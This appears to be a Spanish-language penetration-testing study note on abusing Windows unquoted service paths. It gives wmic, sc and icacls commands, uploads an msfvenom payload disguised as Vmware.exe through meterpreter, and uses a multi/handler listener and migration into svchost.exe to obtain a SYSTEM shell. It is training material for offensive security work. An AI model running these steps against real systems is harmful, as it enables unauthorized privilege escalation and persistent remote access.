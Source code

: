 - Vulnerabilidad Unquoted service path:

Abusan la forma en la que Windows busca binarios de servicios, antes de lanzar un servicio, y cuando una ruta particular a un servicio no tiene comillas y contiene espacios.

Pueden servir tanto para escalada de privilegios como persistencia.

-Podemos usar un módulo de Metasploit:

```
exploit/windows/local/trusted_service_path
```

-MANUAL. Tenemos una sesión de meterpreter:

```
shell
```

Identificamos los servicios vulnerables con wmic:

```
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

![[Pasted image 20230123150157.png]]

Y encontramos un servicio que se está arrancando sin especificar comillas al path del binario y que además contiene espacios, por lo que cuando Windows trate de ejecutarlo buscará el binario en las carpetas que tengan el espacio antes de llegar al binario final.

```
En este caso tendríamos que crear un payload malicioso llamado VMWare.exe dentro de la carpeta VMWare Tools
```

![[Pasted image 20230123150328.png]]

Pero antes de hacerlo hay que comprobar si tenemos privilegios para parar y arrancar servicios.

```
sc stop servicio
sc start servicio
```

Para comprobar el estado del servicio y los privilegios con los que se va a arrancar podemos usar:

```
sc qc servicio
```

![[Pasted image 20230123150709.png]]

Si pone LocalSystem es que se va a lanzar el servicio con privilegios de sistema.

- Una vez comprobado todo: 

Para aprovecharse de la vulnerabilidad hacemos esto:

```
sc stop servicio
cd "C:\ruta\anterior\a\la\que\tenga\espacios"
icacls "ruta con espacios"
```

![[Pasted image 20230123151055.png]]

Si esa ruta tiene la opción (M) en authenticated users podemos modificar su contenido.

Ahora hay que subir el payload malicioso.

```
Ctrl+Z para backgroundear la sesión shell y volver a meterpreter
upload payload64.exe "C:\program files\Vmware\Vmware Tools\Vmware.exe"
```

Ahora tenemos nuestro payload de msfvenom malicioso subido a la carpeta vulnerable

```
background
use multi/handler
configurar como el payload de msfvenom
exploit -j #para ejecutar el listener en 2º plano
Volvemos a la sesión de meterpreter anterior.
shell
sc stop VGAuthService #servicio vulnerable
sc start VGAuthService
background
```

Ya tenemos una sesión con privilegios creada.

Si falla y no nos deja ejecutar ni getuid (la shell es inestable):

```
background
use multi/handler
configurarlo como el payload
set AutoRunScript migrate -n svchost.exe
exploit -j
Volvemos a la sesion sin privilegios
sc stop VGAuthService
sc start VGAuthService
Ahora si tenemos una sesión estable y con privilegios.
```


